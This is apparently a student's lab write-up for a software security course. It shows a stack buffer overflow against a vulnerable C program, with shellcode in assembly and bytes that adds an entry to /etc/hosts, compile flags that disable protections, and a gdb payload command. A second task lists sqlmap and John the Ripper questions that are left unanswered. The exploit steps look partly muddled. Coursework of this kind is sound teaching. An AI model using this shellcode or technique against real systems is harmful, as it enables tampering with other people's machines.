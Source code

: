# LAB#1, 22110093, Dinh Thi Thanh Vy, INSE331280E_02FIE
---

# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```
**Question 1**:
- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: 

**Run virtual environment by docker file**
![alt text](./image/image.png)

Copy file c and file asm called name vuln.c and run_file.asm

**Run C program**
```
gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```

-m32: biên dịch thành mã 32-bit vì shellcode là 32-bit.
-fno-stack-protector: tắt cơ chế bảo vệ stack.
-z execstack: cho phép thực thi mã trên stack (để chạy shellcode).

**Run asm file**
```
    nasm -g -f elf run_file.asm 
    ld -m elf_i386 -o run_file run_file.o
```

**Get shell code of run_file.asm by this command**
```
for i in $(objdump -d run_file.asm |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
![alt text](./image/image-1.png)


**We have the shellcode for run_file file as follows:**
```
    \x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65
```

**Stack Frame:**

![alt text](./image/image-2.png)

payload = padding + returnaddress + shellcode
        = 20 bytes + returnaddress(exit of asm file) + shellcode 

Here, we will use the vuln.c program to trigger a buffer overflow

GDB 

run with this command

```
    run $(python -c "print( '\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\xff\x67\x6f\x6f\x67\x6c\x65' + 'x94\x80\x04\x08' + '\xa8\xd6\xff\xff')")
```

set *0xffffd6 = 0x08048094
set {unsigned char} 0xffffd6eb = 0x20
set *0xffffd6eb = 0x20
set *0xffffd6e5 = 0xffffd688
![alt text](./image/image-3.png)

Buffer Size: The buffer is 16 bytes.

Return Address: You need to overwrite the return address after the buffer. Assuming standard stack layout:

Offset = Buffer Size + 4 (for EBP) = 16 + 4 = 20 bytes.


**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
